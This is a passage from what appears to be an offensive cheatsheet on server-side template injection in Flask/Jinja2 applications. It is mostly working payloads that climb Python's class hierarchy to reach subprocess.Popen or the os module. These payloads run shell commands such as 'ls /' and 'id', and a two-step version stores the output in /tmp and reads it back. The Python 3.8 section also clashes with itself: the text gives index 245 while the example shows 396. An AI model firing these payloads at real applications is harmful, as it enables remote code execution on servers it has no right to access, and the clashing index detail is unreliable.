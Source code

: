  - [Exploring SSTI in Flask/Jinja2 - Part 2](https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/)
 - [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)



#### Using subprocess.Popen

One of the powerful types to look for is `subprocess.Popen`.

On Python 3.8, it is likely to be index 245. This index is subject to change depending on the modules loaded.
```
{{[].__class__.__mro__[1].__subclasses__()[396]}}

<class 'subprocess.Popen'>
```


On Python 2.7, it is likely to be index 245.
```
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

Executing command:
```
{{[].__class__.__mro__[1].__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}
```


#### Alternative os object (Python 2.7)

There is an interesting type that we can be abused `<class 'warnings.catch_warnings'>`. It has a cache of all python modules available. From the instance we can reach the os module.

```
WARNINGS_INSTANCE.__init__.func_globals['linecache'].__dict__.values()[12]

<module 'os' from '/usr/lib/python2.7/os.pyc'>
```

Source: [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)


Applying this interesting pattern to Jinja template. We have the following payload.

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd')}}
```

Here is a two-step payload that executes a command and store the result temporarily in the temp folder. The result is later read from another Jinja expression.

```js
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}
```
